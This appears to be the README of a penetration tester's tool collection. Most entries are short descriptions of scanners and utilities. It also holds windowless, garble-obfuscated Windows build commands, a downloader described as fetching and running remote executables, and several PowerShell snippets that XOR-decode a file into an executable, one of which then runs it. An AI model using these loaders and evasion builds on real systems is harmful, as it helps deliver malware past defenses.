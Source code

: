 # Notes
Golang compile with no window
```
GOOS=windows GOARCH=amd64 go build  -ldflags -H=windowsgui -o file.exe file.go
```
Obfuscate build
```
GOOS=windows GOARCH=amd64 ~/go/bin/garble build  -ldflags="-w -s -H=windowsgui" -o file.exe file.go
```

# Anew (python3)

Compares old file to new file, if new file contains lines that dont exist in the old file it will print them to screen for piping into other tools.

# Nessus Merge (python3)

Combines two nessus files into one.

# Hostscan (bash)

Basic scanner for all hosts, can be used as `hostscan.sh 192.168.1.1 "--top-ports 100" "--top-ports 20"` to define the nmap ports you want to scan

# Fileupload, server and client (go)
Small golang script that will allow file uploads to the current dir over https using a baked in key. Client is formatted to perform the upload for you or you can use curl:
```
curl -sk -X POST -H "X-API-Key: Pentest12345" -F "file=@test.txt" -F "filename=test.txt" https://127.0.0.1:8443/files
```

# Multi Downloader (go)
Will try and download an exe from a remote webserver using 4 methods, if any method is successful it will run the file and exit the program, if one fails it will move to the last and finally use certutil (which flags defender) as a last attempt.

# Encode / Decode (go)
## Encode
Encodes a file with xor to file.txt. 
## Decode
Decodes a file.txt with xor to file.exe then runs

## Decode Powershell script
```
$file = Get-Content "file.txt" -Raw
$decodedBytes = [System.Convert]::FromBase64String($file)
$key = [System.Text.Encoding]::ASCII.GetBytes("mysecretkey")

for ($i = 0; $i -lt $decodedBytes.Length; $i++) {
    $decodedBytes[$i] = $decodedBytes[$i] -bxor $key[$i % $key.Length]
}

[System.IO.File]::WriteAllBytes("file.exe", $decodedBytes)

or

$encoded = Get-Content -Path .\file.txt
$decoded = [System.Convert]::FromBase64String($encoded)
$key = [System.Text.Encoding]::ASCII.GetBytes("Pentest12345")
$decodedBytes = for ($i = 0; $i -lt $decoded.Length; $i++) {$decoded[$i] -bxor $key[$i % $key.Length]}
[System.IO.File]::WriteAllBytes(".\file.exe", $decodedBytes)
Start-Process -FilePath .\file.exe

or 

$encodedFile = Get-Content -Path "file.txt" -Raw
$decodedBytes = [System.Convert]::FromBase64String($encodedFile)
$key = [System.Text.Encoding]::ASCII.GetBytes("Pentest12345")
$decoded = [char[]]$decodedBytes
for ($i = 0; $i -lt $decoded.Length; $i++) {
    $decoded[$i] = [char]([byte]$decoded[$i] -bxor $key[$i % $key.Length])
}
$decoded | Out-File -FilePath "file.exe"

or

$encoded = Get-Content "file.txt"
$decoded = [System.Convert]::FromBase64String($encoded)
$key = "mysecretkey"
$decodedBytes = $decoded -bxor $key
Set-Content -Path "file.exe" -Value $decodedBytes -Encoding Byte


```

# Cname Scanner (go)
Checks  a list of domains from stdin, checks the cname, if the cname does not contain the domain name it prints the domain and the cname.
```
cat domains.txt | go run cnamescanner.go
```

# Get HTTP Response (go)
Script that takes a list of urls from stdin, requests the url and writes the response to a file called responses.txt in the format url,base64encoded(response.body) which is useful for monitoring sites or taking a snapshot of the responses for future tests.
